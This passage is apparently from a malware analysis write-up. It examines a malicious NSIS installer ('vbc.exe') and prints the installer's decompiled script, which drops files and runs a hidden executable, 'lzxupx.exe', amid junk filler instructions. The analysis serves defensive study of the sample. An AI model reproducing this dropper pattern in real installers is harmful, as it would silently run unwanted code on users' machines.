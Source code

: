 ```console
-rw-rw-r-- 1 remnux remnux  302002 Feb 11 21:54  vbc.exe
```

We can take a look in the `[NSIS].nsi` script and see what content would be executed:

```nsis
Function .onGUIInit
  InitPluginsDir
    ; Call Initialize_____Plugins
    ; SetDetailsPrint lastused
  SetOutPath $INSTDIR
  File 8yhm36shrfdb7m
  File mhwrt
  File lzxupx.exe
  ExecWait "$INSTDIR\lzxupx.exe $INSTDIR\mhwrt"
  Abort
  FlushINI $INSTDIR\churches\forget.bin
  Pop $R5
  Push 31373
  CopyFiles $INSTDIR\unknowns\hemlock.bmp $INSTDIR\arboretum\bitsy\chances.tif    ; $(LSTR_7)$INSTDIR\arboretum\bitsy\chances.tif    ;  "Copy to "
  Nop
  Exec $INSTDIR\mightier\audit\kahuna.pdf
  CreateDirectory $INSTDIR\sail\hold
  GetFullPathName $7 $INSTDIR\cloak.csv
  Nop
  DetailPrint rstykivsbfr
  Exch $1
    ; Push $1
    ; Exch
    ; Pop $1
  SetErrorLevel 3
  CreateDirectory $INSTDIR\manic\sons\folklore
  CreateDirectory $INSTDIR\reaches
  CreateDirectory $INSTDIR\scanning\audit
  Nop
  ReadEnvStr $R2 TEMP
  DetailPrint sylsppbkgbyo
  Exch $8
    ; Push $8
    ; Exch
    ; Pop $8
  Exch $R7
    ; Push $R7
    ; Exch
    ; Pop $R7
  EnumRegKey $R5 HKLM oqyalkuqydrx 2236
  FileWriteByte $5 765
FunctionEnd
```

When the NSIS installer starts running, it will execute the commands in `.onGUIInit`. These three files get written:
